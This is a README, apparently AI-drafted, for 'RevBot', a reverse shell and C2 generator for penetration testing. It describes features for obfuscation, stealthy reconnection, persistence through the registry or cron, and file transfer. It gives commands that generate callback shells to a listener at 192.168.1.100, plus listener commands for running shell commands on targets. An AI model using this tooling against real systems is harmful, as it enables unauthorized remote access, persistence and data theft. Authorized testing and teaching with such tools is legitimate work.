 # RevBot

RevBot is an advanced reverse shell generator designed for penetration testing and educational purposes. It supports multiple client languages (Python, PowerShell, Bash) and protocols (TCP, HTTP with WebSocket for C2), with features like encryption (AES, TLS), encoding (base64, zlib), persistence mechanisms, multi-client session management, file transfers with checksums, and obfuscation. The tool emphasizes modularity and scalability, making it easy to extend for custom needs.

## Features

- **Multi-Language Clients**: Generate reverse shells in Python, PowerShell, or Bash, each with tailored capabilities.
- **Protocols**: TCP for traditional reverse shells; HTTP/WebSocket for firewall-evading C2 communication.
- **Encryption**: AES-256-CBC (consistent across clients where supported) and TLS with self-signed certificates.
- **Encoding**: None, base64, or zlib_base64 for data compression and evasion.
- **Persistence**: Platform-specific mechanisms like Windows registry or Linux cron, with debug logging for errors.
- **Session Management**: Handle multiple clients concurrently with commands like `sessions` and `interact <id>`.
- **File Transfers**: Upload/download small files (<1MB) with SHA256 checksums for integrity (basic in PowerShell/Bash).
- **Obfuscation**: Random variable/function names and base64-encoded constants to hinder detection.
- **Logging**: Comprehensive session and command logs for auditing, with stealth options.
- **Modular Structure**: Codebase organized into modules (generator, client, listener, utilities, templates) for easy maintenance and extension.
- **Cross-Platform**: Dynamic platform detection and compatibility with Windows, Linux, and macOS.
- **Enhancements**: Jittered reconnection for stealth, non-blocking HTTP C2 with queuing, and automatic TLS certificate generation.

## Installation

1. **Clone the Repository**:
   ```
   git clone https://github.com/exfil0/RevBot.git
   cd RevBot
   ```

2. **Install Dependencies**:
   The tool requires Python 3.8+ and the following packages:
   ```
   pip install -r revbot/requirements.txt
   ```
   Dependencies include:
   - `pycryptodome` for AES encryption
   - `websockets` for WebSocket C2
   - `prompt_toolkit` for interactive listener prompt

3. **Optional**: Install `openssl` for TLS certificate generation (e.g., on Ubuntu: `sudo apt install openssl`).

## Usage

Run the generator from the root directory:
```
python3 -m revbot --lhost <IP> --lport <PORT> [options]
```

### Examples

- Generate a Python TCP shell with AES encryption and Windows persistence:
  ```
  python3 -m revbot --lhost 192.168.1.100 --lport 4444 --shell-type python_tcp --encryption aes --persistence windows_registry --platform Windows --generate-tls
  ```

- Generate a PowerShell TCP shell with TLS:
  ```
  python3 -m revbot --lhost 192.168.1.100 --lport 443 --shell-type powershell_tcp --encryption tls
  ```

- Generate a Bash TCP shell with base64 encoding:
  ```
  python3 -m revbot --lhost 192.168.1.100 --lport 4444 --shell-type bash_tcp --encoding base64 --platform Linux
  ```

- Generate an HTTP/WebSocket Python client:
  ```
  python3 -m revbot --lhost 192.168.1.100 --lport 8080 --shell-type python_tcp --encryption tls --generate-tls
  ```

Generated files are saved in `revbot_output/` (configurable with `--output-dir`):
- Client script (e.g., `client_python_tcp.py`, `client_powershell_tcp.ps1`, `client_bash_tcp.sh`)
- Listener script (`revbot_listener.py`)
- Logs in `revbot_output/logs/`
- TLS certificates (`server.crt`, `server.key`) if `--generate-tls` is used

### Running the Listener
```
python3 revbot_output/revbot_listener.py
```

The listener supports both TCP and WebSocket connections on the same port. Use commands like:
- `sessions`: List active sessions.
- `interact <id>`: Switch to a session.
- `whoami` or any shell command.
- `upload_file <local_path>`: Upload a small file to the target.
- `download <remote_path>`: Download a small file from the target.
- `exit`: Shut down gracefully.

### Running the Client
- **Python**: `python3 client_python_tcp.py` (supports all features, including WebSocket if HTTP is configured).
- **PowerShell**: `powershell -File client_powershell_tcp.ps1` (basic file transfer, AES supported).
- **Bash**: `./client_bash_tcp.sh` (basic file transfer with base64, no AES).

## Command-Line Options

- `--lhost`: Required. Listener IP address.
- `--lport`: Required. Listener port.
- `--shell-type`: Client type (python_tcp, powershell_tcp, bash_tcp; default: python_tcp).
- `--encoding`: Encoding scheme (none, base64, zlib_base64; default: base64).
- `--encryption`: Encryption type (none, aes, tls; default: none).
- `--aes-key`: Base64-encoded AES key (32 bytes; auto-generated if omitted).
- `--persistence`: Persistence method (none, windows_registry; default: none).
- `--platform`: Target platform (Windows, Linux, Darwin; default: Windows).
- `--output-dir`: Output directory (default: revbot_output).
- `--jitter-min`: Minimum reconnect jitter in seconds (default: 5).
- `--jitter-max`: Maximum reconnect jitter in seconds (default: 15).
- `--generate-tls`: Generate self-signed TLS certificates for TLS encryption.

## Warnings and Limitations
- **PowerShell/Bash Clients**: Limited to basic command execution and file transfers (<1MB). No screenshot support. AES in PowerShell uses .NET AES-256-CBC (not Fernet). Bash uses base64 only (no AES). Use Python for full features.
- **File Transfers**: Limited to small files to avoid buffer issues. Use external tools for larger files.
- **HTTP/WebSocket C2**: Experimental; supports Python clients only. Use `--encryption tls` for secure WebSocket (wss://).
- **Dependencies**: Ensure `pycryptodome`, `websockets`, and `prompt_toolkit` are installed. `openssl` is required for TLS.
- **Legal Use**: RevBot is for authorized testing only. Obtain explicit permission before use. Misuse is illegal.

## Dependencies

See `revbot/requirements.txt`:
```
pycryptodome==3.20.0
websockets==12.0
prompt_toolkit==3.0.47
```

## Contribution

Contributions are welcome! Fork the repo, create a branch, and submit a pull request to the `main` branch. Follow standard GitHub workflow.

## License

MIT License - see [LICENSE](LICENSE) file for details. 

---

This README.md provides a complete overview, ready for your GitHub repo. It's structured for clarity and includes all necessary sections to get users started quickly. If you'd like additions, such as screenshots or more examples, let me know!
